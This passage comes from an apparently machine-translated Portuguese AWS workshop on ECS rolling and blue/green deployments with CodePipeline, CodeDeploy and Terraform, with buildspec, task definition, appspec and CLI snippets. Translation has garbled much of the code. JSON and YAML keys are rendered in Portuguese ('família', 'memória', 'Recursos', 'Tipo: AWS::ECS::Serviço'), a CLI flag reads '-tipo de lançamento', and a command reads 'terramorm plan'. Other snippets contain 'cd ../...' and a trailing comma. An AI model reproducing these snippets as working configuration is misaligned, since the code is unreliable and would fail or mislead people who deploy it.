adicionadas ou removidas durante a atualização. Essa configuração
inclui:

<ul>
<li>
<strong>minimumHealthyPercent</strong> : limite inferior do
número de tarefas em um serviço que deve permanecer em EXECUÇÃO
(RUNNING)
</li>
<li>
<strong>maximumPercent</strong> : limite superior do número de
tarefas em um serviço que são permitidas em RUNNING ou PENDING
</li>
</ul>

Por exemplo, se a porcentagem mínima de integridade for 50 e a
contagem de tarefas desejada for 4, o agendador do ECS poderá
interromper 2 tarefas existentes antes de iniciar 2 novas tarefas. E se
a porcentagem máxima for 200 no mesmo serviço ECS, o agendador poderá
iniciar 4 novas tarefas antes de interromper 4 tarefas existentes.

A velocidade de implementação varia de acordo com os valores
configurados de minimumHealthyPercent e maximumPercent. Além disso, se o
serviço ECS estiver atrás de um ALB, a velocidade de implementação
também será influenciada pelas configurações de verificação de
integridade do balanceador de carga. Para obter mais detalhes, consulte
a <a
href="https://nathanpeck.com/speeding-up-amazon-ecs-container-deployments/">postagem
a seguir</a>.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling#ecs-rolling-deployment-with-aws-codepipeline"><strong>Implantação
contínua do ECS com o AWS CodePipeline</strong></a>

Para configurar uma implementação contínua do ECS com o AWS
CodePipeline, você pode seguir estas etapas:

<ol type="1">
<li>
<strong>Defina sua tarefa e serviço do ECS</strong>: Comece
definindo a tarefa e o serviço do ECS, incluindo a definição da tarefa,
as configurações do contêiner e as configurações de serviço
desejadas.
</li>
<li>
<strong>Configure o AWS CodePipeline</strong>: Crie um pipeline
do AWS CodePipeline para orquestrar o processo de implantação. Seu
pipeline consistirá em estágios, como Source, Build e Deploy.
</li>
<li>
<strong>Estágio de origem</strong>: no estágio de origem,
configure o CodePipeline para monitorar seu repositório de código-fonte
(por exemplo, GitHub, AWS CodeCommit) quanto a alterações. Quando as
alterações são detectadas, o CodePipeline aciona a execução do
pipeline.
</li>
<li>
<strong>Estágio de compilação</strong>: no estágio de compilação,
você pode usar o AWS CodeBuild ou outro serviço de compilação para criar
suas imagens do Docker e preparar seu aplicativo para implantação. Esse
estágio pode envolver a compilação de código, a execução de testes e a
criação de imagens do Docker.
</li>
<li>
<strong>Etapa de implantação</strong>: na etapa de implantação,
integre o AWS CodeDeploy para lidar com a implantação no ECS. Configure
o CodeDeploy para executar atualizações contínuas especificando a
configuração de implementação apropriada, como a porcentagem mínima de
integridade e o tamanho máximo do lote.
</li>
<li>
<strong>Teste e aprovação (opcional)</strong>: Opcionalmente,
você pode incluir um estágio de teste no pipeline para executar testes
automatizados no aplicativo. Você também pode adicionar etapas de
aprovação manual para controlar quando a implementação prossegue para o
próximo estágio.
</li>
<li>
<strong>Monitoramento e reversão</strong>: Implemente soluções de
monitoramento e registro para acompanhar o processo de implementação e a
integridade do aplicativo. Configure alarmes para detectar quaisquer
problemas durante a implementação. Em caso de falhas, utilize o recurso
de reversão do AWS CodeDeploy para reverter para a versão
anterior.
</li>
<li>
<strong>Melhoria contínua</strong>: Monitore e refine
continuamente seu processo de implementação para otimizar o desempenho e
a confiabilidade. Obtenha feedback de cada iteração de implementação e
incorpore melhorias conforme necessário.
</li>
</ol>

Seguindo essas etapas, você pode estabelecer um pipeline robusto de
implantação contínua do ECS usando o AWS CodePipeline, garantindo
atualizações de aplicativos eficientes e confiáveis.

 
Provisione o pipeline de CI/CD

Neste laboratório, configuraremos uma implantação padrão do Amazon
ECS com o AWS CodePipeline.

As etapas com o Terraform são as seguintes:

<ul>
<li>
Um repositório do AWS CodeCommit para hospedar o código do
aplicativo da loja de varejo
</li>
<li>
Um Amazon Elastic Container Registry (ECR) para enviar nossas
imagens
</li>
<li>
Um pipeline do AWS CodePipeline para orquestrar a
implantação
</li>
<li>
Um Amazon S3 Bucket para servir como um armazenamento de
artefatos para o pipeline
</li>
<li>
Um projeto do AWS CodeBuild para compilar e construir o código do
aplicativo
</li>
<li>
Um parâmetro SSM para armazenar nosso ID de compilação mais
recente
</li>
<li>
Uma cópia local do repositório do Retail Store
</li>
</ul>

Execute os seguintes comandos da CLI do terraform para provisionar
recursos do AWS.

cd ~/environment/labs/rolling

terraform init

Execute comandos terraform para implantar a infraestrutura.

terraform plan

Se não houver erros, você poderá prosseguir com a implementação.

terraform apply

Estágio de construção do Refactor

Atualmente, quando você observa o pipeline de <a
href="https://us-west-2.console.aws.amazon.com/codesuite/codepipeline/pipelines/ecs-immersion-day-retail-store-sample/view?region=us-west-2">CI/CD</a>,
o pipeline de CI/CD consiste apenas nos estágios de origem e de
compilação. No entanto, modificaremos as configurações do estágio de
compilação para gerar os artefatos necessários para o estágio de
implantação. Atualize nosso arquivo buildspec.yml para registrar uma
definição de tarefa do ECS que use a imagem recém-construída. O
controlador de implantação do ECS exige que os seguintes arquivos
estejam presentes no seu <a
href="https://docs.aws.amazon.com/codepipeline/latest/userguide/welcome-introducing-artifacts.html">artefato
de saída</a> de compilação para atualizar corretamente a nova definição
de tarefa:

<ul>
<li>
<a
href="https://docs.aws.amazon.com/codepipeline/latest/userguide/file-reference.html#pipelines-create-image-definitions">imagedefinitions.json</a>
</li>
<li>
<a
href="https://docs.aws.amazon.com/codepipeline/latest/userguide/file-reference.html#file-reference-ecs-bluegreen">imageDetail.json</a>
</li>
<li>
<a
href="https://docs.aws.amazon.com/codepipeline/latest/userguide/action-reference-ECSbluegreen.html">taskdef.json</a>
</li>
</ul>

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling/200-refactor-build-stage#update-buildspec.yml-file"><strong>Atualizar
o arquivo buildspec.yml</strong></a>

Para fazer isso, navegue até o repositório do aplicativo.

cd /home/ec2-user/environment/retail-store-sample-codecommit

Abra e edite o arquivo buildspec.yml. Adicione os seguintes comandos
após a linha 30, certificando-se de salvar o arquivo depois.

- cd ../...

- echo Escrever arquivo de definições de imagem...

- printf '[{"name": "application", "imageUri":"%s"}]'
$ECR_URI:$IMAGE_TAG_I &gt; imagedefinitions.json

- printf '{"ImageURI":"%s"}' $ECR_URI:$IMAGE_TAG_I &gt;
imageDetail.json

Acrescente uma linha para gerar os artefatos de definição de
tarefa.

cat &lt;&lt; EOF &gt;&gt; buildspec.yml

artifacts:

name: BuildArtifact

files:

- imagedefinitions.json

- imageDetail.json

- taskdef.json

EOF

Após a conclusão bem-sucedida das etapas acima, o arquivo
buildspec.yml final terá a seguinte aparência.

<ul>
<li>
Before
</li>
<li>
After
</li>
</ul>

version: 0.2

phases:

install:

commands:

- echo Build started on `date`

pre_build:

commands:

- ACCOUNT_ID=$(aws sts get-caller-identity --query "Account" --output
text)

- echo Logging in to Amazon ECR in $AWS_REGION

- COMMIT_HASH=$(echo $CODEBUILD_RESOLVED_SOURCE_VERSION | cut -c
1-8)

- IMAGE_TAG_I=i$(date +%Y%m%d%H%M%S)-${COMMIT_HASH:=latest}

- echo ECR_URI=$ECR_URI

- echo IMAGE_TAG=$IMAGE_TAG

- echo IMAGE_TAG_I=$IMAGE_TAG_I

- aws ecr get-login-password --region $AWS_REGION | docker login
--username AWS --password-stdin $ECR_URI

build:

commands:

- echo Building a container image ...

- component=ui

- component_dir="./src/$component"

- cd $component_dir

- docker build -t $ECR_URI:$IMAGE_TAG .

- docker tag $ECR_URI:$IMAGE_TAG $ECR_URI:$IMAGE_TAG_I

- docker images

post_build:

commands:

- docker push $ECR_URI:$IMAGE_TAG_I

- docker push $ECR_URI:$IMAGE_TAG

- aws ssm put-parameter --name
"/codebuild/retail-store-sample-ui-latest-image" --value "$IMAGE_TAG_I"
--type "String" --overwrite

- echo Build completed on `date`

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling/200-refactor-build-stage#push-ecs-task-definition"><strong>Definição
da tarefa Push ECS</strong></a>

Crie o arquivo taskdef.json, com o valor dinâmico &lt;IMAGE_NAME&gt;,
que será atualizado automaticamente no pipeline para corresponder à nova
imagem.

cat &lt;&lt; EOF &gt; taskdef.json

{

"family": "retail-store-ecs-ui-cicd",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image": "&lt;IMAGE_NAME&gt;",

"portMappings": [

{

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp"

}

],

"essential": true,

"linuxParameters": {

"initProcessEnabled": true

},

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/actuator/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "ui-service"

}

}

}

],

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole",

}

EOF

Prepare e confirme suas alterações para enviá-las ao repositório
CodeCommit do seu aplicativo.

git add .

git commit -m "Adicionadas etapas de definição de tarefa"

git push

Navegue até o console do <a
href="https://us-west-2.console.aws.amazon.com/codesuite/codepipeline/pipelines/ecs-immersion-day-retail-store-sample/view?region=us-west-2">AWS
CodePipeline</a> e aguarde até que a compilação seja concluída com
êxito.



Pode levar alguns segundos para que o pipeline inicie e termine

Agora que verificamos que a refatoração do estágio de compilação foi
concluída com êxito e ficou verde após a conclusão, estamos prontos para
prosseguir com o estágio de implementação.

Executar a implantação contínua

Em seguida, configuraremos os recursos necessários do AWS CodeBuild
para a implementação em nosso serviço ECS.

Para evitar conflitos com as seções subsequentes do workshop, faremos
a implantação em um serviço ECS separado chamado
retail-store-ecs-ui-cicd, que é o mesmo que o serviço
<strong>UI</strong>.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling/300-deploy-stage#create-ecs-service"><strong>Criar
serviço ECS</strong></a>

Execute os comandos abaixo para provisionar o serviço ECS.

export CD_TARGET_GROUP_ARN=$(aws elbv2 describe-target-groups --names
blue-ui-application \

--query 'TargetGroups[0].TargetGroupArn' --output text)

aws ecs register-task-definition --cli-input-json "$(cat
&lt;&lt;EOF

{

"family": "retail-store-ecs-ui-cicd",

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-ui:0.7.0",

"portMappings": [

{

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp"

}

],

"essential": true,

"linuxParameters": {

"initProcessEnabled": true

},

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/actuator/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "ui-service"

}

}

}

]

}

EOF

)"

aws ecs create-service \

--cluster retail-store-ecs-cluster \

--service-name retail-store-ui-cicd \

--task-definition retail-store-ecs-ui-cicd \

--desired-count 2 \

--launch-type FARGATE \

--load-balancers
targetGroupArn=${CD_TARGET_GROUP_ARN},containerName=application,containerPort=8080
\

--network-configuration
"awsvpcConfiguration={subnets=[${PRIVATE_SUBNET1},${PRIVATE_SUBNET2}],securityGroups=[${UI_SG_ID}],assignPublicIp=DISABLED}"

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling/300-deploy-stage#update-terraform-file"><strong>Atualizar
o arquivo Terraform</strong></a>

Abra o arquivo main.tf e adicione esse estágio de implementação após
o comentário // Insert Deploy Stage Here na linha 178. Com isso, a pilha
do Terraform pode criar o <strong>Deploy</strong> Stage no pipeline de
CI/CD.

stage {

name = "Deploy"

action {

name = "deploy_to_ECS"

category = "Deploy"

owner = "AWS"

provider = "ECS"

input_artifacts = ["BuildArtifact"]

version = "1"

run_order = 1

configuration = {

ClusterName = "retail-store-ecs-cluster"

ServiceName = "retail-store-ui-cicd"

}

}

}

Expandir para verificar o arquivo `main.tf` final

Salve as alterações e prossiga com a implementação.

cd /home/ec2-user/environment/labs/rolling

terramorm plan

terraform apply --auto-approve

Navegue até o console do <a
href="https://console.aws.amazon.com/codesuite/codepipeline/pipelines">AWS
CodePipeline</a> novamente e observe que o estágio de implantação foi
adicionado ao pipeline de CI/CD.



Pipeline de teste

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling/400-test#check-web-application"><strong>Verifique
o aplicativo da Web</strong></a>

Cole o URL em um navegador da Web para acessar o aplicativo e
verifique o título do aplicativo da Web que vamos alterar.

export RETAIL_ALB=$(aws elbv2 describe-load-balancers --name
retail-store-ecs-ui \

--query 'LoadBalancers[0].DNSName' --output text)

echo ${RETAIL_ALB}:8080 ; echo

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling/400-test#deploy-changes"><strong>Implementar
alterações</strong></a>

Agora, vamos executar o pipeline de CI/CD criado para realizar uma
implantação contínua. Execute o seguinte comando para editar o banner
principal da interface do usuário na linha 24:

cd
/home/ec2-user/environment/retail-store-sample-codecommit/src/ui/src/main/resources/templates/fragments

sed -i 's|&lt;a class="navbar-brand" href="/home"&gt;Retail Store
Sample&lt;/a&gt;|&lt;a class="navbar-brand" href="/home"&gt;Retail Store
Sample CodePipeline&lt;/a&gt;|g' layout.html

Verifique se as alterações foram aplicadas com sucesso executando o
seguinte comando.

cat layout.html | grep CodePipeline

Faça o commit das alterações no repositório do CodeCommit.

git add .

git commit -m "alterar o banner da interface do usuário"

git push

Navegue até o console do <a
href="https://us-west-2.console.aws.amazon.com/codesuite/codepipeline/pipelines/ecs-immersion-day-retail-store-sample/view?region=us-west-2">AWS
CodePipeline</a> e clique em <strong>View Details (Exibir
detalhes</strong>) do estágio de implantação assim que ele for
iniciado.

Pode levar alguns segundos para que o pipeline seja iniciado.



Clique na opção <strong>View in ECS (Exibir no ECS</strong>) e
verifique se o estado da implantação do serviço ECS atinge o estado
<strong>Concluído</strong>.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling/400-test#check-web-application&#39;s-change"><strong>Verificar
a alteração do aplicativo da Web</strong></a>

Você pode confirmar que o novo serviço está executando a versão mais
recente da sua imagem de contêiner de interface do usuário recuperando o
valor do AWS Systems Manager Parameter Store e comparando-o com o campo
de imagem na definição de tarefa da saída do describe-service.

last_build=$(aws ssm get-parameter --name
"/codebuild/retail-store-sample-ui-latest-image" --query
'Parameter.Value' --output text)

ui_task_definition=$(aws ecs describe-services --cluster
retail-store-ecs-cluster --services retail-store-ui-cicd --query
"services[0].taskDefinition" --output text)

echo -e "current container image: $(aws ecs describe-task-definition
--task-definition ${ui_task_definition} --query
"taskDefinition.containerDefinitions[0].image" --output text) \n latest
build: ${last_build}"

By accessing the endpoint obtained with the command below, you can
verify that the title of the UI service has changed to <strong>Retail
Store Sample CodePipeline</strong>.

export RETAIL_ALB=$(aws elbv2 describe-load-balancers --name
retail-store-ecs-ui \

--query 'LoadBalancers[0].DNSName' --output text)

echo ${RETAIL_ALB}:8080 ; echo



Parabéns! Com este laboratório, você criou um pipeline de CI/CD e
implantou um novo serviço do ECS usando a implantação contínua.

Cleaning Up

Remove the CI/CD pipeline.

cd /home/ec2-user/environment/labs/rolling

terraform destroy

Delete the source code file.

cd /home/ec2-user/environment/

rm -rf retail-store-sample-app/

rm -rf retail-store-sample-codecommit/

Remove the ECS service created for the rolling deployment.

aws ecs delete-service --cluster retail-store-ecs-cluster --service
retail-store-ui-cicd --force

(optional) Blue/Green Deployment

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green#ecs-bluegreen-deployment"><strong>Implementação
do ECS Blue/Green</strong></a>

A implantação azul/verde refere-se a uma estratégia de implantação em
que dois ambientes idênticos, denominados "azul" e "verde", são usados
para implantar novas versões de software. O ambiente azul executa a
versão de produção atual, enquanto a nova versão é implantada no
ambiente verde. Depois que a nova versão é verificada e testada, o
tráfego é transferido para o ambiente verde, garantindo um tempo de
inatividade mínimo e uma reversão fácil se ocorrerem problemas.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green#ecs-bluegreen-deployment-with-aws-codepipeline-and-aws-codedeploy"><strong>Implantação
do ECS Blue/Green com o AWS CodePipeline e o AWS
CodeDeploy</strong></a>

Load Balancer

Blue

Green

A implementação azul/verde compartilha um fluxo geral semelhante ao
da <a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/rolling">implementação
contínua</a> discutida anteriormente. No entanto, ela se distingue por
orquestrar a implementação azul/verde para o Amazon ECS e o balanceador
de carga usando o <strong>AWS CodeDeploy</strong>. Já no caso de uma
implementação contínua, o Amazon ECS orquestra a implementação.

Para configurar uma implementação do ECS Blue/Green com o AWS
CodeDeploy, você pode seguir estas etapas:

<ol type="1">
<li>
Configure o serviço para usar o ALB ou o NLB
</li>
<li>
Definir o outro grupo-alvo
</li>
<li>
Configurar o AWS CodeDeploy
</li>
</ol>

Provisione o pipeline de CI/CD

Neste laboratório, modificaremos nossa implantação padrão do ECS com
o CodePipeline para usar implantações Blue/Green por meio do AWS
CodeDeploy.

As etapas com o Terraform são as seguintes:

<ul>
<li>
Um repositório do AWS CodeCommit para hospedar o código do
aplicativo da loja de varejo
</li>
<li>
Um Amazon Elastic Container Registry (ECR) para enviar nossas
imagens
</li>
<li>
Um pipeline do AWS CodePipeline para orquestrar a
implantação
</li>
<li>
Um Amazon S3 Bucket para servir como um armazenamento de
artefatos para o pipeline
</li>
<li>
Um projeto do AWS CodeBuild para compilar e construir o código do
aplicativo.
</li>
<li>
Um parâmetro SSM para armazenar nosso ID de compilação mais
recente
</li>
<li>
Uma cópia local do repositório do Retail Store
</li>
</ul>

Execute os seguintes comandos da CLI do terraform para provisionar
recursos do AWS.

cd ~/environment/labs/blue-green

terraform init

Execute comandos terraform para implantar a infraestrutura.

Terraform plan

Se não houver erros, você poderá prosseguir com a implementação.

Terraform apply

Refactor Build Stage

Atualmente, quando você observa o pipeline de <a
href="https://us-west-2.console.aws.amazon.com/codesuite/codepipeline/pipelines/ecs-immersion-day-retail-store-sample/view?region=us-west-2">CI/CD</a>,
o pipeline de CI/CD consiste apenas nos estágios de origem e de
compilação. No entanto, modificaremos as configurações do estágio de
compilação para gerar os artefatos necessários para o estágio de
implantação. Atualize nosso arquivo buildspec.yml para registrar uma
definição de tarefa do ECS que use a imagem recém-construída. O
controlador de implantação do ECS exige que os seguintes arquivos
estejam presentes no seu <a
href="https://docs.aws.amazon.com/codepipeline/latest/userguide/welcome-introducing-artifacts.html">artefato
de saída</a> de compilação para atualizar corretamente a nova definição
de tarefa:

<ul>
<li>
<a
href="https://docs.aws.amazon.com/codepipeline/latest/userguide/file-reference.html#pipelines-create-image-definitions">imagedefinitions.json</a>
</li>
<li>
<a
href="https://docs.aws.amazon.com/codepipeline/latest/userguide/file-reference.html#file-reference-ecs-bluegreen">imageDetail.json</a>
</li>
<li>
<a
href="https://docs.aws.amazon.com/codepipeline/latest/userguide/action-reference-ECSbluegreen.html">taskdef.json</a>
</li>
</ul>

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green/200-refactor-build-stage#update-buildspec.yml-file"><strong>Atualizar
o arquivo buildspec.yml</strong></a>

Para fazer isso, navegue até o repositório do aplicativo.

cd /home/ec2-user/environment/retail-store-sample-codecommit

Abra e edite o arquivo buildspec.yml. Adicione os seguintes comandos
após a linha 30, certificando-se de salvar o arquivo depois.

- cd ../...

- echo Escrever arquivo de definições de imagem...

- printf '[{"name":"application","imageUri":"%s"}]'
$ECR_URI:$IMAGE_TAG_I &gt; imagedefinitions.json

- printf '{"ImageURI":"%s"}' $ECR_URI:$IMAGE_TAG_I &gt;
imageDetail.json

Acrescente uma linha para gerar os artefatos de definição de
tarefa.

cat &lt;&lt; EOF &gt;&gt; buildspec.yml

artifacts:

name: BuildArtifact

files:

- imagedefinitions.json

- imageDetail.json

- taskdef.json

EOF

Após a conclusão bem-sucedida das etapas acima, o arquivo
buildspec.yml final terá a seguinte aparência.

<ul>
<li>
Before
</li>
<li>
After
</li>
</ul>

version: 0.2

phases:

install:

commands:

- echo Build started on `date`

pre_build:

commands:

- ACCOUNT_ID=$(aws sts get-caller-identity --query "Account" --output
text)

- echo Logging in to Amazon ECR in $AWS_REGION

- COMMIT_HASH=$(echo $CODEBUILD_RESOLVED_SOURCE_VERSION | cut -c
1-8)

- IMAGE_TAG_I=i$(date +%Y%m%d%H%M%S)-${COMMIT_HASH:=latest}

- echo ECR_URI=$ECR_URI

- echo IMAGE_TAG=$IMAGE_TAG

- echo IMAGE_TAG_I=$IMAGE_TAG_I

- aws ecr get-login-password --region $AWS_REGION | docker login
--username AWS --password-stdin $ECR_URI

build:

commands:

- echo Building a container image ...

- component=ui

- component_dir="./src/$component"

- cd $component_dir

- docker build -t $ECR_URI:$IMAGE_TAG .

- docker tag $ECR_URI:$IMAGE_TAG $ECR_URI:$IMAGE_TAG_I

- docker images

post_build:

commands:

- docker push $ECR_URI:$IMAGE_TAG_I

- docker push $ECR_URI:$IMAGE_TAG

- aws ssm put-parameter --name
"/codebuild/retail-store-sample-ui-latest-image" --value "$IMAGE_TAG_I"
--type "String" --overwrite

- echo Build completed on `date`

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green/200-refactor-build-stage#push-ecs-task-definition"><strong>Definição
da tarefa Push ECS</strong></a>

Crie o arquivo taskdef.json, com o valor dinâmico &lt;IMAGE_NAME&gt;,
que será atualizado pelo CodeDeploy.

cat &lt;&lt; EOF &gt; taskdef.json

{

"family": "retail-store-ecs-ui-cicd",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memory": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image": "&lt;IMAGE_NAME&gt;",

"portMappings": [

{

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp"

}

],

"essential": true,

"linuxParameters": {

"initProcessEnabled": true

},

"healthCheck": {

"command": [

"CMD-SHELL",

"curl -f http://localhost:8080/actuator/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries": 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "ui-service"

}

}

}

],

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole",

}

EOF

Criar um <a
href="https://docs.aws.amazon.com/codedeploy/latest/userguide/reference-appspec-file.html">AppSpecAppSpec</a>
em nosso repositório CodeCommit, que será atualizado pelo CodeDeploy
para determinar qual definição de tarefa e contêiner usar.

cat &lt;&lt; EOF &gt; appspec.yml

versão: 0.0

Recursos:

- TargetService:

Tipo: AWS::ECS::Serviço

Propriedades:

TaskDefinition: &lt;TASK_DEFINITION&gt;

LoadBalancerInfo:

ContainerName: "application" (aplicativo)

Porta do contêiner: 8080

EOF

Prepare e confirme suas alterações para enviá-las ao repositório
CodeCommit do seu aplicativo.

git add .

git commit -m "Adicionadas etapas de definição de tarefa"

git push

Navegue até o console do <a
href="https://us-west-2.console.aws.amazon.com/codesuite/codepipeline/pipelines/ecs-immersion-day-retail-store-sample/view?region=us-west-2">AWS
CodePipeline</a> e aguarde até que a compilação seja concluída com
êxito.

Pode levar alguns segundos para que o pipeline seja iniciado e
concluído

Agora que verificamos que a refatoração do estágio de compilação foi
concluída com êxito e ficou verde após a conclusão, estamos prontos para
prosseguir com o estágio de implementação.

Executar a implantação azul/verde

Em seguida, configuraremos os recursos necessários do AWS CodeBuild
para a implementação em nosso serviço ECS.

Para evitar conflitos com as seções subsequentes do workshop,
implantaremos em um serviço ECS separado chamado retail-store-ecs-ui-bg,
que é o mesmo que o serviço <strong>UI</strong>.

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green/300-deploy-stage#create-ecs-service"><strong>Criar
serviço ECS</strong></a>

Execute os comandos abaixo para provisionar o serviço ECS.

export CD_TARGET_GROUP_ARN=$(aws elbv2 describe-target-groups --names
blue-ui-application \

--query 'TargetGroups[0].TargetGroupArn' --output text)

aws ecs register-task-definition --cli-input-json "$(cat
&lt;&lt;EOF

{

"família": "retail-store-ecs-ui-cicd",

"executionRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskExecutionRole",

"taskRoleArn":
"arn:aws:iam::${ACCOUNT_ID}:role/retailStoreEcsTaskRole",

"networkMode": "awsvpc",

"requiresCompatibilities": [

"FARGATE"

],

"cpu": "1024",

"memória": "2048",

"runtimePlatform": {

"cpuArchitecture": "X86_64",

"operatingSystemFamily": "LINUX"

},

"containerDefinitions": [

{

"name": "application",

"image":
"public.ecr.aws/aws-containers/retail-store-sample-ui:0.7.0",

"portMappings": [

{

"containerPort": 8080,

"hostPort": 8080,

"protocol": "tcp"

}

],

"essencial": true,

"linuxParameters": {

"initProcessEnabled": true

},

"healthCheck": {

"comando": [

"CMD-SHELL",

"curl -f http://localhost:8080/actuator/health || exit 1"

],

"interval": 10,

"timeout": 5,

"retries" (novas tentativas): 3,

"startPeriod": 60

},

"logConfiguration": {

"logDriver": "awslogs",

"options": {

"awslogs-group": "retail-store-ecs-tasks",

"awslogs-region": "$AWS_REGION",

"awslogs-stream-prefix": "ui-service"

}

}

}

]

}

EOF

)"

aws ecs create-service \

--cluster retail-store-ecs-cluster \

--service-name retail-store-ui-bg \

--task-definition retail-store-ecs-ui-cicd \

--desired-count 4 \

-tipo de lançamento FARGATE \

--load-balancers
targetGroupArn=${CD_TARGET_GROUP_ARN},containerName=application,containerPort=8080
\

--network-configuration
"awsvpcConfiguration={subnets=[${PRIVATE_SUBNET1},${PRIVATE_SUBNET2}],securityGroups=[${UI_SG_ID}],assignPublicIp=DISABLED}"
\

--deployment-controller type=CODE_DEPLOY

<a
href="https://catalog.us-east-1.prod.workshops.aws/event/dashboard/en-US/workshop/80-ci-cd/blue-green/300-deploy-stage#update-terraform-file"><strong>Atualizar
o arquivo Terraform</strong></a>

Adicionaremos algumas definições de recursos. Com isso, a pilha do
Terraform criará os seguintes recursos:

<ul>
<li>
Um aplicativo CodeDeploy
</li>
<li>
Um grupo de implantação do CodeDeploy
</li>
<li>
Um estágio no CodePipeline
</li>
</ul>

Crie um recurso de aplicativo CodeDeploy no arquivo Terraform
main.tf.

cd /home/ec2-user/environment/labs/blue-green

cat &lt;&lt; EOF &gt;&gt; main.tf

resource "aws_codedeploy_app" "retail-ui-deployment" {

name = "retail-ui-deployment"

compute_platform = "ECS"

}

EOF

Com o aplicativo definido, crie agora o grupo de implantação.

cat &lt;&lt; EOF &gt;&gt; main.tf

resource "aws_codedeploy_deployment_group"
"retail-ui-deployment-group" {

app_name = "retail-ui-deployment"

deployment_group_name = "retail-ui-deployment-group"

service_role_arn = data.aws_iam_role.code_deploy_role.arn

deployment_style {

deployment_option = "WITH_TRAFFIC_CONTROL"

deployment_type = "BLUE_GREEN"

}

blue_green_deployment_config {

deployment_ready_option {

action_on_timeout = "CONTINUE_DEPLOYMENT"

}

terminate_blue_instances_on_deployment_success {

action = "TERMINATE"

termination_wait_time_in_minutes = 5

}

}

deployment_config_name =
"CodeDeployDefault.ECSLinear10PercentEvery1Minutes"

ecs_service {

cluster_name = "retail-store-ecs-cluster"

service_name = "retail-store-ui-bg"

}

load_balancer_info {

target_group_pair_info {

prod_traffic_route {

listener_arns = [data.aws_lb_listener.bglistener.arn]

}

target_group {

name = "blue-ui-application"

}

target_group {

name = "green-ui-application"

}

}

}

depends_on = [aws_codedeploy_app.retail-ui-deployment ]

}

EOF

Abra o arquivo main.tf no editor do Cloud9 e adicione esse estágio de
implementação após o comentário // Insert Deploy Stage Here (Inserir
estágio de implementação aqui) na linha 178.

stage {

name = "Deploy_BG"

action {

name = "deploy_to_ECS"

category = "Deploy"

owner = "AWS"

provider = "CodeDeployToECS"

input_artifacts = ["BuildArtifact"]

version = "1"

run_order = 1

configuration = {

ApplicationName = aws_codedeploy_app.retail-ui-deployment.name

DeploymentGroupName =
aws_codedeploy_deployment_group.retail-ui-deployment-group.deployment_group_name

TaskDefinitionTemplateArtifact = "BuildArtifact"

AppSpecTemplateArtifact = "BuildArtifact"

AppSpecTemplatePath = "appspec.yml"

Image1ArtifactName = "BuildArtifact"

Image1ContainerName = "IMAGE_NAME"

}

}

}

Expandir para verificar o arquivo `main.tf` final

Salve as alterações e implemente os recursos recém-definidos.

terraform plan

terraform apply --auto-approve

Navegue até o console do <a
href="https://console.aws.amazon.com/codesuite/codepipeline/pipelines">AWS
